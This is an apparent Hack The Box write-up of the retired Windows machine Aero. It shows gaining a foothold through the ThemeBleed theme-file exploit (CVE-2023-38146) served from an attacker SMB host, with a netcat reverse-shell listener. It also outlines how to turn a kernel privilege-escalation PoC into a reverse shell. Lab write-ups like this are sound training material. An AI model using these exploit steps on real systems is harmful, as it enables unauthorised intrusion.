# Aero — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Medium |
| **OS** | Windows |
| **Status** | ✅ Retired |
| **This write-up** | Foothold (user flag). Privilege escalation documented but not completed. |
| **Key techniques** | CVE-2023-38146 (ThemeBleed) `.theme` RCE via SMB-hosted DLL |

---

## TL;DR

Aero's only surface is an "Aero Theme Hub" web app that accepts uploaded
`.theme` / `.themepack` files on a Windows 11 target — a textbook signal
for **CVE-2023-38146 (ThemeBleed)**. The public PoC builds a malicious
theme that references an attacker-hosted SMB DLL; when the box previews the
uploaded theme, the DLL fires and I get a shell as `AERO\sam.emerson`.

> **Honest note:** I got the foothold and the user flag. The intended
> privilege escalation is **CVE-2023-28252** (CLFS driver EoP), which
> requires modifying and recompiling a kernel-exploit PoC. I've documented
> that path below but did not complete it — this write-up is foothold-only.

---

## Recon

```bash
nmap -p- -T4 10.129.229.128
nmap -p 80 -sCV 10.129.229.128
```



Only port 80 (IIS 10.0), titled **"Aero Theme Hub"**. All the logic sits
behind the web app.

---

## Web Enumeration

The site is a themed download hub with an **upload widget**:



Uploading `.php`/`.txt` is rejected. Intercepting the request shows the
form only accepts `.theme` / `.themepack`:



A **Windows theme upload on a Windows 11 target** points straight at
**CVE-2023-38146 (ThemeBleed)**.

---

## Foothold — CVE-2023-38146 (ThemeBleed)

### Set up the PoC

```bash
git clone https://github.com/Jnnshschl/CVE-2023-38146
cd CVE-2023-38146
python3 -m venv .venv && source .venv/bin/activate
pip3 install -r requirements.txt
```




### Fire the exploit

The script binds an SMB server (port 445) and generates the malicious
theme:

```bash
sudo .venv/bin/python3 themebleed.py -r 10.10.14.172 -p 8888
```



The chain under the hood:

1. Victim opens the `.theme` file.
2. The `.theme` references a `.msstyles` on the attacker's SMB share.
3. The `.msstyles` "pack version 999" triggers a `_vrf.dll` load.
4. Windows loads the attacker-controlled DLL → shellcode fires.

### Upload → callback

Uploaded `evil_theme.theme` through the web form:




Started a listener; when the box previewed the theme, the DLL fired and I
got a PowerShell shell as `AERO\sam.emerson`:

```bash
rlwrap -cAr nc -lvnp 8888
```




---

## Privilege Escalation — CVE-2023-28252 (documented, not completed)

winPEAS flagged a non-Microsoft scheduled task, but it runs as
`sam.emerson` (the user I already am), so it isn't a privesc. The user's
`Documents` folder also contains a CVE disclosure notice pointing at
**CVE-2023-28252** (Windows CLFS Driver Elevation of Privilege) — the box
is telegraphing the intended path.

Turning the public CLFS PoC into a working escalation requires:

1. Editing the PoC to replace its `notepad.exe` payload with a real
   reverse shell.
2. Recompiling with Visual Studio (it depends on `ntoskrnl.lib` +
   Windows headers).
3. Crafting a matching `.blf` (CLFS log) file to trigger the vulnerable
   path.
4. Delivering the compiled `.exe` + `.blf` to the target.

I documented the path but did not finish the compilation, so this
write-up ends at the foothold. I'll update it if I complete the CLFS
escalation later.

---

## Lessons Learned

- Read the enumeration signal: an explicit `.theme` upload widget on a
  Windows 11 host is a near-direct pointer to ThemeBleed.
- ThemeBleed is a client-side chain — the payload only fires when someone
  on the box opens/previews the uploaded theme.
- HTB medium boxes often build privesc around a specific CVE that needs PoC
  modification and compilation — worth recognizing early so you can budget
  time for it.

---

## Remediation

- Patch CVE-2023-38146 and CVE-2023-28252 (both fixed by Microsoft).
- Don't process untrusted `.theme` files, and never auto-preview
  user-uploaded content on a privileged host.

---

## Tools used

- `nmap`
- Burp Suite
- ThemeBleed PoC (CVE-2023-38146)
- `rlwrap`, `nc`
- WinPEAS

---

**See also:** [Windows privilege escalation methodology](../../methodology/windows-privesc.md)

---

**Machine:** [Hack The Box — Aero](https://www.hackthebox.com/machines/aero)
